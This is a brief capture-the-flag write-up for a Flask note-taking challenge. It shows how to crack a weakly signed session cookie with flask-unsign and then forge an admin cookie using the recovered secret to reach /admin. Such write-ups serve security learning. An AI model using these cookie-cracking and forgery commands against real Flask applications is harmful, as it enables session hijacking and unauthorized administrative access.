



# Introduction
This is a challange that uses flask and creates a session cookie that is not signed with strong key

## Challange Discription

I have created this notes taking app so that I don't forget what I've studied

Author: @5h1kh4r
Web Instance: http://34.16.207.52:8965 

## Step1

When we open the website we are face with **login/register** page. after we sign up and login we are given a session cookie that seems to be *JWT* but it is not:



As we can see the server is using python so maybe it is using flask coockie that can be cracked using **flask-unsign**

```bash
flask-unsign  --unsign --cookie "eyJ1c2VybmFtZSI6IlNhbGFyNDAzMCJ9.Zpefgg.QH8tMHnV-i7ANwJ-rsFPWROI7sc"
```



Then we use the extracted key to create a new session token for admin and login with that

```bash
flask-unsign  --sign --cookie "{'username': 'admin'}" --secret 'supersecretkey'
```

Noow we go to **/admin** path with new token to get the flag:



